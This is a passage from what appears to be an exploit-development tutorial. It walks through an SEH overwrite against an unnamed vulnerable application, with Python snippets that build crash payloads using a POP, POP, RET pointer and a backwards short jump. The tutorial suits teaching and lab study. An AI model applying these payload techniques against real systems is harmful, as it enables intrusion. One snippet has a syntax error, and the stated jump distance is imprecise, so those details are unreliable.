 Our exploit code should now look like the below:

```

f = open("crash-5.txt", "wb")  
  
buf   b"A" * 620  
buf += b"B" * 4  
buf += b"\x86\x1e\x40" #00401e86  
  
f.write(buf)  
f.close() 

```

If we input this new string into our vulnerable application and then check the SEH tab, we have gotten our null  byte into the SEH record.

Now we can use our POP, POP, RET instruction, but… we can’t write any data after our pointer to the POP, POP, RET instruction set, so we will not be able to just simply do a short jump over the SEH record into our payload like we did in the last exploit. This time we have 4 bytes to work with in the SEH record.

Our best option from here is a short jump backwards. This can be done because the operand of the short jump instruction is in two’s complement format. Which is the way computers use to represent integers. Basically it can be used to describe both positive and negative integers.

Say for example you have the value of 51 in binary:\
00110011

And we want to know what 51 negative would be in binary we simply invert the 1’s and 0’s then add 1:\
11001101

This allows us to jump back a maximum of 80 bytes using \xEB\x80. So let’s change our SEH overwrite to be the pointer to our POP, POP, RET instruction and see where we land with our jump backwards. Our exploit code should now look something like this:

```

f = open("crash-6.txt", "wb")  
  
buf  = b"A" * 620  
buf += b"\xEB\x80\x90\x90"  
buf += b"\x86\x1e\x40" #00401e86  
  
f.write(buf)  
f.close() 

```

When we pass the output into the application, a breakpoint should be placed at our POP, POP, RET instruction (0x00401E86) and wait to land there. We will have to pass through two exception handlers to get there so be prepared to press F11 twice and then you should be looking at something like the screenshot below.
